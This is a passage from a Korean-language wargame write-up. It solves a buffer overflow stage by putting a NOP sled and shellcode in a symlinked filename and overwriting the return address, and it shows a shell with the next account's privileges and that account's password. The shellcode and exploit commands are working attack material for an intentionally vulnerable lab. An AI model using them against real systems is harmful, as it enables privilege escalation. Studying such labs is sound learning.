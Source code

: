```bash
0xbffffff4:     mov    %dl,%ah
0xbffffff6:     lcall  $0x0,$0x81ce0cb1
0xbffffffd:     add    %al,(%eax)
0xbfffffff:     .byte 0x0
0xc0000000:     Cannot access memory at address 0xc0000000
```

## 4. 새로운 shellcode 도전

shellcode 에서 죽는 이유는 명확하게 잘 몰라서 새로운 shellcode를 이용해서 다시 공격을 해보자.

```bash
\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3
```


```bash
>  ln -s skeleton `python -c 'print "\x90"*50 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'`

>  gdb ./`python -c 'print "\x90"*50 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'`
```

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage10-3.png)
![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage10-4.png)

## 5. 공격

`LR` 은 `0xbfffffc0` 으로 선택.

```bash
> ln -s skeleton `python -c 'print "\x90"*50 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'`

> ./`python -c 'print "\x90"*50 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'` `python -c 'print "A"*44 + "\xc0\xff\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAÀ  ¿

bash$ id
uid=509(vampire) gid=509(vampire) euid=510(skeleton) egid=510(skeleton) groups=509(vampire)
```

## 6. 다음 단계 정보

```bash
bash$ id
uid=509(vampire) gid=509(vampire) euid=510(skeleton) egid=510(skeleton) groups=509(vampire)

bash$ my-pass
euid = 510
shellcoder
```
